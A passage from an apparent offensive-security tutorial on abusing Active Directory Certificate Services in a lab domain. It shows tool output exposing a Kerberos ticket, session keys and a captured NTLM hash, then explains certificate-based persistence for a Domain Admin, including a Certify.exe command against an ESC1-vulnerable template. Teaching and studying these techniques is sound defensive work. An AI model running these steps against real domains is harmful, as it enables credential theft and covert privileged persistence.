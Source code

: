 ```powershell
    [*] base64(ticket.kirbi):

    doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlh....

    ServiceName              :  krbtgt/corp.local
    ServiceRealm             :  CORP.LOCAL
    UserName                 :  paulo.victor
    UserRealm                :  CORP.LOCAL
    StartTime                :  1/10/2025 11:33:04 PM
    EndTime                  :  1/11/2025 9:33:04 AM
    RenewTill                :  1/17/2025 11:33:04 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  YJHc9+T6Rdt8PrWc5eEdZQ==
    ASREP (key)              :  51901227A9A7C2FDF729D40313291627

    [*] Getting credentials using U2U

    CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
        CredentialCount    : 1
        NTLM              : **E15E48546D35C3F2EF7FB995A4A9548E**
```

As you can see, I was able to capture the NTLM hash of my user, who is the owner of the template I used and also a Domain Admin within the environment. And as I mentioned, no matter how many times the user changes their password, you will always capture the current hash, all of this without even touching the **LSASS** process.

## Persistence by user certificate

It is also possible to create persistence in the environment through certificates for the user. The idea here is that you already have elevated access within the environment, such as a Domain Admin, to issue this certificate on behalf of a high-privilege user you want to maintain access to.

The step-by-step would be:
- Gain access to a high-privilege user (i.e., DA & EA).
- Request a certificate for that user using a template that allows **Client Authentication**.

By default, ADCS has some templates that allow **Client Authentication**, such as the **User** template, which we will use to generate the certificate for our user. Typically, these certificates have a validity of 1 year, but when they are about to expire, you can simply reissue the same certificate.

In the context below, I have a low-privileged user in my environment, and I will be issuing the certificate in the name of a template vulnerable to ESC1. This will result in a ticket with the Domain Admin user, which will be our target for persistence.

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"CORP - Kerberos Authentication" /altname:paulo.victor

    
     _____          _   _  __
    / ____|        | | (_)/ _|
    | |     ___ _ __| |_ _| |_ _   _
    | |    / _ \ '__| __| |  _| | | |
    | |___|  __/ |  | |_| | | | |_| |
     \_____\___|_|   \__|_|_|   \__,|
                                __/ |
                                |___/
    v1.0.0

```